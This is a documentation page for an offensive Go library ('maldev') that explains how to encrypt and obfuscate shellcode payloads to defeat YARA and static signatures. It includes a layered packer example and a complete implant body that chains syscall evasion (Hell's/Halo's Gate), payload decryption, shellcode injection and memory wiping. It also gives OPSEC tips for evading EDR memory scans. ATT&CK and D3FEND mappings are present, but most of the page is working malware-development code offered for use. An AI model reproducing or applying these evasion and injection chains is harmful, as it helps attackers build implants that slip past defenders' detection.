

# Payload encryption & obfuscation

[← crypto index](README.md) · [docs/index](../../index.md)

## TL;DR

Three-tier toolkit: AEAD ciphers (AES-GCM, XChaCha20-Poly1305) for the
outer envelope; lightweight stream/block ciphers (RC4, TEA, XTEA) for
in-process unpackers; signature-breaking permutations (S-Box, Matrix
Hill, ArithShift, XOR) to defeat YARA byte patterns. Pure Go, no CGo,
cross-platform.

Recommended layer stack:

```text
implant.exe disk bytes
    │
    ├─ Layer 1: signature-breaking permutation (S-Box / XOR)
    │           Defeats static YARA on the encrypted blob.
    │
    ├─ Layer 2: lightweight cipher (RC4 / TEA)
    │           In-process unpacker — minimal footprint.
    │
    └─ Layer 3: AEAD outer envelope (AES-GCM)
                Authenticated; tampering detection.
```

## Primer — vocabulary

Six terms recur on this page:

> **AEAD (Authenticated Encryption with Associated Data)** —
> cipher mode that produces both ciphertext AND an
> authentication tag. Decrypting with the wrong key OR
> tampered ciphertext fails loudly (tag mismatch). AES-GCM and
> XChaCha20-Poly1305 are the AEAD modes shipped here. Always
> use AEAD for the outer envelope so on-disk corruption fails
> early instead of producing garbage shellcode.
>
> **Nonce / IV** — single-use bytes that randomise the cipher's
> output so the same key + plaintext doesn't always produce the
> same ciphertext. Reusing a nonce with the same key catastrophically
> breaks security (key recovery for stream ciphers, plaintext
> recovery for AES-GCM). XChaCha20's 24-byte nonce is large
> enough that random nonces practically never collide.
>
> **Authentication tag** — fixed-size value (16 bytes for
> AES-GCM) appended to the ciphertext. Checked on decryption;
> any byte flip in the ciphertext makes the tag mismatch.
>
> **Stream cipher** — produces a keystream of pseudorandom
> bytes XOR'd with plaintext. RC4 is the canonical example.
> No authentication; no nonce (just a key). Cheap to
> implement; never use as outer envelope (no tampering detection).
>
> **Permutation** — reversible byte rearrangement (S-Box,
> Matrix Hill, ArithShift) that defeats YARA static rules
> looking for a known byte pattern. Doesn't add entropy —
> just shuffles. Pair with a real cipher beneath.
>
> **YARA** — defender's pattern-matching language. Rules describe
> byte sequences ("look for `\xE9\x4D\x32\xCB`"). Layered
> permutation + cipher means the disk artefact never matches
> any byte sequence the implant author or attacker tooling
> baseline contains.

## Pick the primitive

Side-by-side. Pick the row whose tradeoffs match the deployment
context, then click through to the API Reference for that
function.

| Primitive | Layer | Speed | Entropy profile | Key | Nonce / IV | Authenticated | Reversible | Static signature | Best for |
|---|---|---|---|---|---|---|---|---|---|
| **AES-GCM** | AEAD outer | fast (AES-NI) | uniform high (256 bits) | 32 B | 12 B random | ✅ tag | yes | low (random) | Default outer envelope; tampering detection mandatory. |
| **XChaCha20-Poly1305** | AEAD outer | fast | uniform high | 32 B | 24 B random | ✅ tag | yes | low | AES-NI absent; misuse-resistant nonce (24 B random ≈ unique). |
| **AES-CTR raw** | Stream (CTR) | fast (AES-NI) | uniform high | 16/24/32 B | 16 B random | ❌ | yes | low | Stage-1 stub decrypts a stage-2 payload that self-validates; saves 16 B AEAD tag + the const-time-compare branch. Pair with `HMACSHA256` for integrity. |
| **ChaCha20 raw** | Stream | fast | uniform high | 32 B | 24 B random | ❌ | yes | low | AES-NI absent + AEAD overhead unwanted. Constant-time across all CPUs (no S-box table lookups). Pair with `HMACSHA256`. |
| **RC4** | Stream | very fast | uniform | 5–256 B | none | ❌ | yes | YARA: keystream bias | Cheap unpacker between layers; never as outer envelope. |
| **TEA** | Block (64-bit) | very fast | uniform | 16 B | none (ECB) | ❌ | yes | low | Tiny block primitive when binary footprint matters. |
| **XTEA** | Block (64-bit) | very fast | uniform | 16 B | none (ECB) | ❌ | yes | low | Same as TEA but with corrected key schedule. |
| **Speck-128/128** | Block (128-bit) | very fast | uniform | 16 B | none (ECB) | ❌ | yes | low | NSA 2013 ARX cipher; ~30 B/round of x86-64 asm — preferred when stage-1 stub needs a real cipher but can't afford AES's S-box. |
| **XOR** | Stream | trivial | matches key length | any | implicit | ❌ | yes | YARA: visible key | Dev / scratch only; never alone in production. |
| **S-Box (substitute)** | Permutation | very fast | uniform when keyed | 256-byte table | none | ❌ | yes (`Reverse*`) | breaks byte-frequency YARA | Layer between AES-GCM and embed to flatten histograms. |
| **Matrix Hill** | Permutation | medium (per-row) | uniform | 4×4 / 8×8 matrix | none | ❌ | yes | breaks contiguous-byte YARA | Defeat contiguous-byte signatures; pair with S-Box. |
| **ArithShift** | Permutation | very fast | non-uniform | 1–4 B | none | ❌ | yes | low | Cheap layer that produces *non*-uniform entropy — masks an AES blob's "looks-random" tell. |

How to read the matrix:

- **Authenticated** = does the cipher detect tampering on
  decrypt? Only the AEAD ciphers do; everything else returns
  "decrypted" garbage on bit-flips. Always run an AEAD as the
  outermost layer if integrity matters.
- **Static signature** = how visible the cipher choice is to a
  YARA scanner. Permutations break histogram / contiguous-byte
  rules; AEAD ciphers leave no static fingerprint at all
  (output is random).
- **Speed** is qualitative. For multi-MB payloads, prefer
  AES-GCM (AES-NI) or XChaCha20-Poly1305 — the rest allocate
  per call.

Composition pattern (build → embed → runtime):

```text
plaintext
  ↓ EncryptAESGCM(key)              [outer AEAD, uniform output]
  ↓ SubstituteBytes(table)          [S-Box: flatten histogram]
  ↓ MatrixTransform(M)              [break contiguous bytes]
  ↓ ArithShift(k)                   [non-uniform entropy mask]
ciphertext bytes embedded into the implant
```

Reverse on the runtime side: `ReverseArithShift` →
`ReverseMatrixTransform` → `ReverseSubstituteBytes` →
`DecryptAESGCM`. **Always** wipe the key buffer with
`memory.SecureZero` immediately after `DecryptAESGCM` returns.

## Performance reference

Measured on x86_64 (Linux, AMD-NI / SHA-NI available), 64 KiB
plaintext, `go test -bench` median of 3 runs (numbers move ±5 %
across runs / hosts; pick on shape, not exact MB/s):

| Primitive | Throughput | Allocs/op | Comment |
|---|---|---|---|
| **AES-GCM** | ~860 MB/s | 4 | AES-NI accelerated; outer envelope of choice on AES-NI-capable hosts. |
| **HMAC-SHA256** (tag) | ~790 MB/s | 6 | SHA-NI accelerated; integrity layer for raw-stream ciphers. |
| **AES-CTR** | ~680 MB/s | 3 | AES-NI without GCM tag — saves 16 B + the const-time-compare branch. |
| **ChaCha20-Poly1305** | ~590 MB/s | 2 | AEAD; preferred when AES-NI absent. |
| **ChaCha20 raw** | ~280 MB/s | 1 | Strip Poly1305 when stage-2 self-validates. |
| **RC4** | ~260 MB/s | 2 | Stream; fast initialization. Defender-friendly bias. |
| **XOR (repeating key)** | ~170 MB/s | 1 | Allocator-bound; trivial cipher. |
| **Speck-128/128** | ~130 MB/s | 2 | Pure-Go ARX; ~30 B asm/round — preferred lightweight block primitive when AES is too heavy. |
| **TEA / XTEA** | ~40 MB/s | 2 | 8-byte block (more rounds per byte vs 16-byte block ciphers). |
| **Argon2id** (default params) | ~93 ms / call | 40 | Build-host KDF, NOT a per-byte primitive — single call per pack. |

Bench source: `crypto/cipher_benchmarks_test.go`. Reproduce with:

```bash
go test -bench=. -benchmem -run='^$' ./crypto/
```

Reading the table:

  * If you have AES-NI on the target, AES-GCM is the right outer
    envelope. The throughput already accounts for the GCM tag
    computation.
  * Without AES-NI, ChaCha20-Poly1305 is the AEAD pick — it's
    constant-time across all CPUs.
  * If you're sizing a stage-1 stub and AES is too much (no AES-NI,
    256-byte S-box budget), **Speck-128/128** is the right pick.
    3 × faster than TEA/XTEA and a 16-byte block matches AES.
  * If your stage-2 self-validates, drop the AEAD tag: AES-CTR or
    ChaCha20 raw paired with HMAC-SHA256 is ~10 % faster than the
    AEAD equivalent on the same host AND saves 16 B per blob.

## Primer

Static signatures are the cheapest defender win. A raw shellcode buffer
sitting in a binary's `.data` section gets matched by a four-byte YARA
rule before it ever runs. Encryption breaks that match by replacing the
plaintext with high-entropy gibberish derivable only with the key.

The `crypto` package layers three protection levels. The **outer
envelope** uses an authenticated cipher (AEAD) — anything else risks an
attacker tampering with the ciphertext to redirect execution. The
**stream/block layer** is for tiny in-process unpackers where AES-GCM is
overkill but a passable cipher is still wanted. The **transform layer**
mutates byte distribution without giving cryptographic confidentiality —
useful when the goal is breaking signatures rather than hiding intent.

The package is pure Go, has no CGo dependencies, cross-compiles to
Linux/Windows/macOS targets, and avoids syscalls entirely (every operation
is a constant-time arithmetic transform on a buffer).

## How it works

```mermaid
flowchart LR
    SC[raw shellcode] -->|build time| ENC[crypto.EncryptAESGCM]
    ENC --> STAGE1[ciphertext + nonce]
    STAGE1 -.optional.-> WRAP[crypto.EncryptXTEA + SubstituteBytes]
    WRAP --> EMBED["go:embed in implant"]
    EMBED -->|runtime| LOAD[load embedded blob]
    LOAD --> UNWRAP1[ReverseSubstituteBytes + DecryptXTEA]
    UNWRAP1 --> DEC[crypto.DecryptAESGCM]
    DEC --> WIPE_K[memory.SecureZero AES key]
    WIPE_K --> EXEC[inject.Inject]
    EXEC --> WIPE_P[memory.SecureZero plaintext]
```



Build-time: encrypt with AEAD, optionally wrap in cheaper layers.
Runtime: peel layers in reverse, wipe the key the moment the AEAD `Open`
returns, inject, wipe the plaintext.

### AES-GCM internals



The 12-byte random nonce is **prepended** to the output, so callers do
not manage nonces. Re-encrypting the same plaintext yields a different
ciphertext every time.

### TEA / XTEA round equation

64 rounds, 32-bit half-blocks, 128-bit key:

$$
\begin{aligned}
\text{sum} &\mathrel{+}= \delta \\
v_0 &\mathrel{+}= ((v_1 \ll 4) + k_0) \oplus (v_1 + \text{sum}) \oplus ((v_1 \gg 5) + k_1) \\
v_1 &\mathrel{+}= ((v_0 \ll 4) + k_2) \oplus (v_0 + \text{sum}) \oplus ((v_0 \gg 5) + k_3)
\end{aligned}
$$

with $\delta = \texttt{0x9E3779B9}$ (golden ratio constant). XTEA fixes
TEA's equivalent-key weakness by mixing the round counter into the key
schedule, but the structure is the same.

### Matrix (Hill cipher mod 256)

For an $n \times n$ key matrix $K$ over $\mathbb{Z}_{256}$ with
$\gcd(\det K, 256) = 1$, encryption operates per $n$-byte block $\vec{p}$:

$$
\vec{c} = K \vec{p} \mod 256
$$

`NewMatrixKey(n)` searches random matrices until one is invertible mod
256. The inverse is precomputed and returned alongside.

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/crypto`](https://pkg.go.dev/github.com/oioio-space/maldev/crypto) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple

```go
key, _ := crypto.NewAESKey()
ct, _ := crypto.EncryptAESGCM(key, []byte("shellcode goes here"))
pt, _ := crypto.DecryptAESGCM(key, ct)
```

See `ExampleEncryptAESGCM` and `ExampleEncryptChaCha20` in
[`crypto_example_test.go`](../../../crypto/crypto_example_test.go) for
runnable variants.

### Composed (with `cleanup/memory` for key wiping)

Decrypt the embedded blob, wipe the key the moment `Open` returns, run
the payload, wipe the plaintext:

```go
import (
    "github.com/oioio-space/maldev/cleanup/memory"
    "github.com/oioio-space/maldev/crypto"
)

shellcode, err := crypto.DecryptAESGCM(aesKey, encryptedPayload)
if err != nil {
    return err
}
memory.SecureZero(aesKey)

// ... use shellcode ...
memory.SecureZero(shellcode)
```

### Advanced (XTEA + S-Box layered packer)

A two-stage in-process unpacker. The outer S-Box defeats YARA rules that
look at byte distribution; the inner XTEA round destroys whatever
structure leaks through.

```go
import "github.com/oioio-space/maldev/crypto"

// Build time
var xteaKey [16]byte
_, _ = crypto.NewSBox() // warm CSPRNG
sbox, inv, _ := crypto.NewSBox()
copy(xteaKey[:], aesKeyMaterial[:16])

stage1, _ := crypto.EncryptXTEA(xteaKey, shellcode)
packed   := crypto.SubstituteBytes(stage1, sbox)

// Embed `packed` + `xteaKey` + `inv` in the implant.

// Runtime
unsbox  := crypto.ReverseSubstituteBytes(packed, inv)
orig, _ := crypto.DecryptXTEA(xteaKey, unsbox)
```

### Complex (full encrypt → evade → inject → wipe chain)

End-to-end implant body. Apply syscall evasion first, decrypt the
payload, wipe the key, inject through an indirect-syscall caller, wipe
the plaintext.

```go
import (
    "github.com/oioio-space/maldev/cleanup/memory"
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

var (
    encrypted []byte // //go:embed payload.aes
    aesKey    []byte // //go:embed key.bin
)

func run() error {
    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(wsyscall.NewHellsGate(), wsyscall.NewHalosGate()))
    _ = evasion.ApplyAll(preset.Stealth(), caller)

    shellcode, err := crypto.DecryptAESGCM(aesKey, encrypted)
    if err != nil {
        return err
    }
    memory.SecureZero(aesKey)

    inj, err := inject.NewWindowsInjector(&inject.WindowsConfig{
        Config:        inject.Config{Method: inject.MethodCreateThread},
        SyscallMethod: wsyscall.MethodIndirect,
    })
    if err != nil {
        return err
    }
    if err := inj.Inject(shellcode); err != nil {
        return err
    }
    memory.SecureZero(shellcode)
    return nil
}
```

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| High-entropy `.data` / `.rdata` section | Compile-time YARA `entropy >= 7.5`, ML classifiers (PE byte histograms) |
| Decrypt routine signature | Static unpacker fingerprints (e.g. `aes.NewCipher` followed by `cipher.NewGCM` from a non-go-tooling-built binary) |
| Plaintext shellcode in process memory after decrypt | EDR memory scans (Defender's `AMSI`-like for native code, MDE Live Response) |
| Long-lived AES key in heap | YARA scanning of process RWX/RW pages — wipe immediately after `Open` |

**D3FEND counters:**

- [D3-SEA](https://d3fend.mitre.org/technique/d3f:StaticExecutableAnalysis/)
  — static executable analysis defeats high-entropy sections via
  unpacker emulation.
- [D3-PSA](https://d3fend.mitre.org/technique/d3f:ProcessSpawnAnalysis/)
  — process-spawn analysis catches decrypt-then-execute patterns.
- [D3-FCR](https://d3fend.mitre.org/technique/d3f:FileContentRules/) —
  YARA over `.data` after unpacker emulation.

**Hardening:** wipe keys before injection (`cleanup/memory.SecureZero`);
chunk decryption + injection across cache lines so plaintext does not
sit in RWX longer than a few microseconds; pair with sleep-masking
(`evasion/sleepmask`) for long-running implants.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1027](https://attack.mitre.org/techniques/T1027/) | Obfuscated Files or Information | obfuscation transforms (XOR, TEA, S-Box, Matrix, ArithShift) | D3-SEA |
| [T1027.013](https://attack.mitre.org/techniques/T1027/013/) | Encrypted/Encoded File | AEAD ciphers (AES-GCM, ChaCha20) and stream cipher (RC4) | D3-FCR |

## Limitations

- **Key distribution unsolved.** This package does not embed, derive,
  fetch, or rotate keys — it ciphers buffers. A real implant must source
  the key from somewhere (build-time embed, environment, C2 fetch). The
  weakest link in any payload-encryption design.
- **Entropy is detectable.** A 200 KB high-entropy section in a Go
  binary is suspicious by itself. Layer with non-uniform transforms
  (`ArithShift`) or split into multiple sections for cover.
- **Ephemeral plaintext still touchable.** Between decrypt and `Inject`,
  the plaintext lives on the Go heap. EDR memory scans (Defender,
  CrowdStrike) sweep RW pages — wipe the buffer *before* the next
  syscall, not after. Use `crypto.UseDecrypted(decrypt, fn)` — the
  helper runs decrypt, calls fn with the plaintext, and zeroes the
  buffer via defer (so the wipe still runs when fn errors or
  panics). Or call `crypto.Wipe(plaintext)` manually for cases that
  don't fit the closure shape.
- **Streaming AEAD only for AES-GCM and XChaCha20-Poly1305.** The
  `NewAESGCMWriter` / `NewChaCha20Writer` family handles
  multi-MB / multi-GB payloads with bounded memory (64 KiB peak)
  and per-frame tampering detection. The other primitives
  (`EncryptRC4`, `XOR`, `TEA`, `XTEA`, `MatrixTransform`,
  `SubstituteBytes`, `ArithShift`) still take the whole buffer in
  one call — for multi-MB use, layer a streaming AEAD on top
  (`AES-GCM stream → XOR/MatrixTransform inside the chunk` is the
  canonical hardening pattern).
- **Streaming framing is on the wire.** Both the chunk size
  (64 KiB) and the framing layout (4-byte header + sealed bytes)
  are deterministic and not key-derived — a defender who knows the
  package can recognise the framing on a captured stream. The
  framing carries no plaintext metadata, but its presence may
  fingerprint maldev itself.
- **RC4 broken.** Compatibility-only; do not use as the outer envelope.
- **TEA equivalent keys.** Three keys decrypt to the same plaintext;
  prefer XTEA.

## See also

- [`encode`](../encode/README.md) — transport-safe representations to
  wrap the ciphertext for HTTP / PowerShell / JSON channels.
- [`hash`](../hash/README.md) — integrity, ROR13 API hashing, fuzzy
  similarity for variant detection.
- [`cleanup/memory.SecureZero`](../cleanup/memory-wipe.md) — pair to
  wipe keys and plaintext.
- [`evasion/sleepmask`](../evasion/sleep-mask.md) — re-encrypt the
  payload during sleep windows.
- [Bernstein, *ChaCha, a variant of Salsa20*](https://cr.yp.to/chacha/chacha-20080128.pdf)
  — XChaCha20-Poly1305 source paper.
- [NIST SP 800-38D](https://csrc.nist.gov/publications/detail/sp/800-38d/final)
  — GCM specification.
